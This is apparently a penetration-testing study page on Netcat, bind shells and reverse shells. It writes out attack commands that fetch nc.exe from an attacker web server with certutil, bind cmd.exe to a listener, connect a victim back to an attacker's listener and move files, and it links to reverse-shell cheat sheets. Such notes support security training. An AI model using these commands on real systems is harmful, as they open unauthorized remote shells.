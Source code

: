 ```yaml
---
description: Bind and Reverse Shells
---
```


# 5 - Shells

## <mark style="color:red;">Netcat Fundamentals</mark>

* Netcat (Aka TCP/IP Swiss Army Knife) is a networking utility used to read and write data to network connections using TCP or UDP.
* Netcat is available for both \*NIX and Windows operating systems, consequently making it extremely useful for cross-platform engagements.
* Netcat utilizes a client-server communication architecture with two modes:
  * **Client mode** - Netcat can be used in client mode to connect to any TCP/UDP port as well as a Netcat listener (server).
  * **Server mode** - Netcat can be used to listen for connections from clients on a specific port.
* Netcat can be used by penetration testers to perform the following functionality:
  * Banner Grabbing
  * Port Scanning
  * Transferring Files
  * Bind/Reverse Shells

### **Practical Demonstration**

```bash
nc -h # help menu.
nc -nv <targetIP> <targetPort> #Connect to a port with NoDNS and Verbose flags
nc <...> -u #Connect via a UDP port (TCP default)
/usr/share/windows-binaries/nc.exe #Location of the nc windows binary

#Transfer the nc.exe windows binary from attacker to victim system:
#Setup a webserver (python) in the nc binary folder on the attacker side
cmd > certutil -urlcache -f http://<localIP>/nc.exe <binaryName> #Download the nc.exe binary from thea attacker system

nc -nvlp <port> #Listen for any connection on port 1234
cmd > nc.exe -nv <localIP> <port> #Connect to the nc listener

#How to transfer files using netcat
#The file receiver need to be listening (server) and the file sender needs to connect (client)
cmd > nc.exe -nvlp <port> > <fileName> #Redirect everything received from a netcat client to a file
nc -nv <targetIP> <port> < <fileName> #Send the file to the netcat listener
```





## <mark style="color:red;">Bind Shells</mark>

**Bind Shells**

▪ A bind shell is a type of remote shell where the attacker connects directly to a listener on the target system, consequently allowing for execution of commands on the target system.

▪ A Netcat listener can be setup to execute a specific executable like cmd.exe or /bin/bash when a client connects to the listener.

<figure><img src="../../.gitbook/assets/image (20) (1).png" alt=""><figcaption></figcaption></figure>

**Practical Demonstration**

```bash
cmd > nc -lvnp -e cmd.exe #Setup a listener that will grant access to cmd.exe to the client system
nc -nv <targetIP> <port> #Connect to the victim system via a bind shell
```





## <mark style="color:red;">Reverse Shells</mark>

* A reverse shell is a type of remote shell where the target connects directly to a listener on the attacker's system, consequently allowing for execution of commands on the target system.

<figure><img src="../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

**Practical Demonstration**

{% code overflow="wrap" %}
```bash
nc -nlvp 1234 #Setup a listener on the attacker system
cmd > nc.exe -nv <localIP> <port> #Connect to the attacker system using the vicitm system (reverse shell)
```
{% endcode %}





## <mark style="color:red;">Reverse Shell Cheatsheet</mark>

#### Resource for various  reverse shells generator:

* [<mark style="color:red;">https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md</mark>](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
* [https://www.revshells.com/](https://www.revshells.com/) --> Reverse shell generator.

**Practical Demonstration**

{% code overflow="wrap" lineNumbers="true" %}
```bash
# List of useful resources related to reverse shells:

# https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md Reverse Shell Cheatsheet
#https://www.revshells.com/ Reverse Shell Generator
```
{% endcode %}





